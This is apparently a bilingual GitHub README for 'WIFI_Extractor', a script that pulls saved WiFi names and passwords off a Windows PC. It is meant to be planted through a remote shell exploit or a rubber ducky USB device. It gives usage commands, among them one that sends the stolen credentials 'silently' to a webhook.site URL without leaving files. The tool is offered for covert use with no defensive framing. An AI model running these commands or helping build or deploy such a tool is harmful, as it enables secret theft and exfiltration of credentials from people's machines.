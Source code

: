 # WIFI_Extractor

if you run it with python you might need this requeriments
Si lo ejecutas con python tal vez podrias necesitar estos requerimientos


pip install click

pip install elementpath

pip install requests

Script to extract WIFI passwords from a pc uploading it remotely (shell exploit) and send it to a url "silently"(webhook without leaving files 
and also can be used offline, physically (rubber ducky)

Script para extraer contraseñas WIFI de un pc subiendolo remotamente(shell exploit) y enviarlo a una url "silenciosamente"(webhook) 
Tambien se puede usar offline, físicamente con un pendrive(rubber ducky)

Usage: E_WIFI.py [OPTIONS]


Options:

  -u, --url TEXT      Webhook/POST URL
  
  -o, --only-webhook  Only send data to webhook (whithout creating the txt file) need to specify the url with -u Envía los datos
                      solo a la webhook (sin crear el archivo txt) necesitas especificar la url con -u
                      
  -v, --version       Imprime la version | Prints the version
  
  --help              Show this message and exit.
  

Offline

python3 E_WIFIoffline.py

CMD or Powershell E_WIFIoffline.exe | ./E_WIFIoffline.exe (You can also double click it)

Creates a txt with the WIFI's ssid and passwords stored in the local machine
Crea un txt con los nombres y las contrasenas WIFI guardadas en la maquina local

Online

Usages

default usage
python3 E_WIFI.py

CMD or Powershell E_WIFI.exe | ./E_WIFI.exe

Creates a txt with the WIFI's ssid and passwords stored in the local machine
Crea un txt con los nombres y las contrasenas WIFI guardadas en la maquina local

Another Example

python3 E_WIFI.py -o -u https://webhook.site/yoururl 
CMD or Powershell E_WIFI.exe | ./E_WIFI.exe -o -u https://webhook.site/yoururl

type --help for more detailed info

PD: Extracciones.txt is the txt with the wifis credentials
